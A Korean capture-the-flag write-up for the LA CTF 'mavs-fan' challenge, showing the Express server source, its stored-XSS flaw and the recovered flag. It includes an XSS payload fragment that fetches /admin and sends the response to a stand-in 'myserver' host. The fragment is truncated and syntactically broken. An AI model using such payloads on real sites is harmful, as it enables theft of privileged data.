


# mavs-fan


서버에 접속하면 위와 같은 textarea를 볼 수 있는데 여기서 XSS 취약점이 터진다.

그리고 코드를 살펴보면은 /admin 경로에 FLAG가 있는걸 볼 수 있다.

```
const express = require('express');
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser')
const app = express();
const port = process.env.PORT || 3000;

app.use(cookieParser());

app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static('public'));

const posts = new Map();
posts.set(crypto.randomUUID(), {message: "Yo Luka's gonna be our franchise player... he's the next Dirk!", published: true});
posts.set(crypto.randomUUID(), {message: "I got full faith in our front office to build a championship team around Luka these next few years.", published: true});
posts.set(crypto.randomUUID(), {message: "Glad we're not the Lakers right now... only over-the-hill stars and not even contending.", published: true});

const publishedPosts = Object.fromEntries(
    [...posts].filter(([id, post]) => post.published)
);

const FLAG = process.env.FLAG || 'lactf{test_flag}';
const ADMIN_SECRET = process.env.ADMIN_SECRET || 'placeholder';

app.get('/admin', (req, res) => {
    if (!req.cookies.secret || req.cookies.secret !== ADMIN_SECRET) {
        return res.redirect("/");
    }
    return res.json({ trade_plan: FLAG });
});

app.post('/api/post', (req, res) => {
    const { message } = req.body;
    const newId = crypto.randomUUID();
    if (message) {
        posts.set(newId, {message: message, published: false});
    }
    return res.redirect(`/post/${newId}`);
});

app.get('/api/posts', (req, res) => {
    return res.json(publishedPosts);
});

app.get('/api/post/:id', (req, res) => {
    const post = posts.get(req.params.id);
    if (!post) return res.status(404).send('Post not found');
    return res.json(post);
});

app.get('/post/:id', (req, res) => {
    res.sendFile(__dirname + '/public/post/post.html');
});

app.get('/', (req, res) => {
    return res.sendFile(__dirname + '/public/home/index.html');
});

app.listen(port, () => {
    return console.log(`Server running at http://localhost:${port}`);
});
```

/admin 경로는 admin이 아니면 못들어가고 admin 쿠키도 HTTPONLY로 설정되어있으므로
XSS Payload로 /admin에 방문하고 그 값을 내 서버로 넘기는 코드를 짜면 된다.

```
 r.text())
    .then(d -> fetch('https://myserver?flag='+encodeURIComponent(d)))">
```



`FLAG : lactf{m4yb3_w3_sh0u1d_tr4d3_1uk4_f0r_4d}`
